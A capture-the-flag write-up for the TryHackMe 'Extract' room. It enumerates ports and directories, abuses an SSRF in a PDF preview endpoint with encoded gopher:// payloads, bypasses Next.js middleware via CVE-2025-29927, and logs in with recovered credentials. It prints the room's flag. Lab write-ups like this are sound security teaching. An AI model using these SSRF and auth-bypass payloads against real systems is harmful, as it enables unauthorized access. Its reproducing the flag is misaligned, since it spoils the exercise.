





# 🕵️ Extract

* Solving [EXTRACT](https://tryhackme.com/room/extract)

## Discovery

1. First of all, Lets Find Open Ports: `nmap -p- -sV $TARGET` 🎯
```
Nmap scan report for $TARGET
Host is up (0.00024s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:79:29:14:25:7F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. By checking Web Port(**80**) with `http://$TARGET`, It seems PDFs  are loaded From: `http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fpdf%2Fdummy.pdf`. Possibly the website is vulnerable to **Path Traversal** or **SSRF** 🔥


3. I tested all [PHP Wrappers](https://www.php.net/manual/en/wrappers.php) but nothing found! so I decided to dig in deeper! 😅



4. Next, I tried Finding Hidden Directories Using [RAFT Medium Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt) 🔒
```sh
ffuf -w raft-medium-directories.txt -u "http://$TARGET/FUZZ/"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/FUZZ/
 :: Wordlist         : FUZZ: raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

pdf                     [Status: 200, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 403, Size: 277, Words: 20, Lines: 10]
icons                   [Status: 403, Size: 277, Words: 20, Lines: 10]
management              [Status: 403, Size: 14, Words: 2, Lines: 1]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

5. I could Find **2** valuable Directories, but we don't have direct access to them. 😵
```
management
server-status
```

6. But, PDF Preview link may be able to load other URLs for us! 👍🏻
```
management:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fmanagement%2F

server-status:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fserver-status%2F
```


8. I tried finding more directories with [RAFT Large Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt), But nothing fancy showed up! Only the `localhost` keyword was blocked, so I didn't fall into that **Rabbit Hole** anymore! 🐰

9. A new Idea! Lets Brute-Force **Ports** on host, **Internally**! 🤌
```sh
seq 1 65535 > ports.txt
ffuf -w ports.txt -u "http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ" -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 1
________________________________________________

80                      [Status: 200, Size: 1735, Words: 304, Lines: 65]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1]
```
**Attention**: `-fl 1` didn't work, because response on port `10000` has only `1` line of code.

10. Now, Lets Check Port `10000` on Browser: `http://$TARGET/preview.php?url=http://127.0.0.1:10000` 👀


11. There is a Hidden API Here, But Accessing `http://127.0.0.1:10000/customapi` needs **Authentication** as the Image above says it loud and clear! 👂

## Flag 1 ⛳️

12. By Checking HTML, It seems the website is based on `Next.JS`. First vulnerability to check is [CVE-2025-29927](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass). We can this security issue by sending request below: 🧨
```
GET /customapi HTTP/1.1
Host:127.0.0.1:10000
X-Middleware-Subrequest: middleware
```

13. Everything seems in order until you realize, There is **NO** way to send **HTTP Headers** in ssrf on this website (YET)! 😱

14. Don't worry, By diving in OLD Internet Protocols and PHP Wrappers. I could find `gopher://` which provides the capability of sending requests over tcp, specially `HTTP`. For Learning More About `gopher://`, check links in **References** section. 🔎

15. Lets use [CyberChef](https://gchq.github.io/CyberChef/) for creating `gopher` payloads by keeping conditions below: ✅
- ☑️ Double Encode Payloads
- ☑️ Convert `&` into `%26`
- ☑️ Line Endings should be **CRLF**

```
gopher://127.0.0.1:10000/_GET /customapi HTTP/1.1
Host:127.0.0.1:10000
X-Middleware-Subrequest: middleware

```


```
gopher://127.0.0.1:10000/_GET%2520/customapi%2520HTTP/1.1%250D%250AX-Middleware-Subrequest:%2520middleware%250D%250A
```

16. Now, we need to exploit the vulnerability on target and access the **API** page: `http://$TARGET/preview.php?url=gopher://127.0.0.1:10000/_GET%2520/customapi%2520HTTP/1.1%250D%250AX-Middleware-Subrequest:%2520middleware%250D%250A` 🔥



17. Nice, We Got the Flag 1 🚀!
```
THM{363bec60df12c2cadbe9ff35393fa468}
```

18. Save The HTML in File and open it, We have more Than Flag here (CREDENTIALS). 😈
```
U: librarian
P: L1br4r1AN!!
```



## Flag 2 ⛳️

20. In the `/management`, There is a nice Login form: `http://10.10.92.204/preview.php?url=http://127.0.0.1/management/` 🔐


21. We Have 2 Fields, `username` and `password`. Let's Login using `gopher://`. 📝
```
gopher://127.0.0.1:80/_POST /management/index.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Connection: close

username=librarian&password=L1br4r1AN%21%21
```



**Attention**: Convert `&` to `%26` on burp when sending.

```
gopher://127.0.0.1:80/_POST%2520/management/%2520HTTP/1.1%250D%250AHost:%2520127.0.0.1%250D%250AContent-Type:%2520application/x-www-form-urlencoded%250D%250AContent-Length:%252043%250D%250A%250D%250Ausername=librarian%26password=L1br4r1AN%252521%252521
```


22. Response redirects into `/2fa.php` with Cookies: 🍪
```
HTTP/1.1 302 Found
Date: Mon, 20 Oct 2025 14:44:32 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: PHPSESSID=qrjv6vf9nk2oh0bgmqomalmchh; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: auth_token=O%3A9%3A%22AuthToken%22%3A1%3A%7Bs%3A9%3A%22validated%22%3Bb%3A0%3B%7D; expires=Mon, 20 Oct 2025 15:44:32 GMT; Max-Age=3600; path=/
Location: 2fa.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```



